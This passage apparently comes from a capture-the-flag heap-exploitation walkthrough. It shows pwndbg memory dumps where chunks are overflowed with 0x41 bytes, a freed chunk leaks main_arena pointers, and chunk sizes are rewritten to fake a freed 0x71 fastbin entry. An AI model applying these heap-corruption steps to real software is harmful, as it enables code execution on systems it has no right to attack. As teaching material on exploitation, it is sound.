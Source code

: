 ```bash
pwndbg>
0x555555757050: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757060: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757070: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757080: 0x41414141      0x41414141      0x41414141      0x41414141
0x555555757090: 0x41414141      0x41414141      0x61    0x0     <----------
```



Here, we are free of chunk 1, this time we can get an unsortbin


```
0x555555757020 PREV_INUSE {
  prev_size = 0x0,
  size = 0xd1,
  fd = 0x7ffff7dd1b58 <main_arena+88> ,
  bk = 0x7ffff7dd1b58 <main_arena+88> ,
  fd_nextsize = 0x4141414141414141,
  bk_nextsize = 0x4141414141414141
}

```



Next, we redistribute the chunk 0xd1 and modify its size to 0x71.


```
pwndbg> x/40ag 0x555555757020
0x555555757020: 0x4141414141414141      0x71
0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>
0x555555757040: 0x4141414141414141      0x4141414141414141
0x555555757050: 0x4141414141414141      0x4141414141414141
0x555555757060: 0x4141414141414141      0x4141414141414141
0x555555757070: 0x4141414141414141      0x4141414141414141
0x555555757080: 0x4141414141414141      0x4141414141414141
0x555555757090: 0x4141414141414141      0x61
```







We then need to fix this 0x71 FD freelist and fake it as a block that has already been released.

```
pwndbg> x/40ag 0x555555757000
0x555555757000: 0x0     0x21
0x555555757010: 0x4141414141414141      0x4141414141414141
0x555555757020: 0x4141414141414141      0x71       <----------  free 0x71
0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>
0x555555757040: 0x4141414141414141      0x4141414141414141
0x555555757050: 0x4141414141414141      0x4141414141414141
0x555555757060: 0x4141414141414141      0x4141414141414141
0x555555757070: 0x4141414141414141      0x4141414141414141
0x555555757080: 0x4141414141414141      0x4141414141414141
0x555555757090: 0x4141414141414141      0x61
0x5555557570a0: 0x0     0x0
0x5555557570b0: 0x0     0x0
0x5555557570c0: 0x0     0x0
0x5555557570d0: 0x0     0x0
0x5555557570e0: 0x0     0x0
0x5555557570f0: 0xd0    0x71   <----------     free 0x71
0x555555757100: 0x0     0x0
0x555555757110: 0x0     0x0
0x555555757120: 0x0     0x0
0x555555757130: 0x0     0x0
```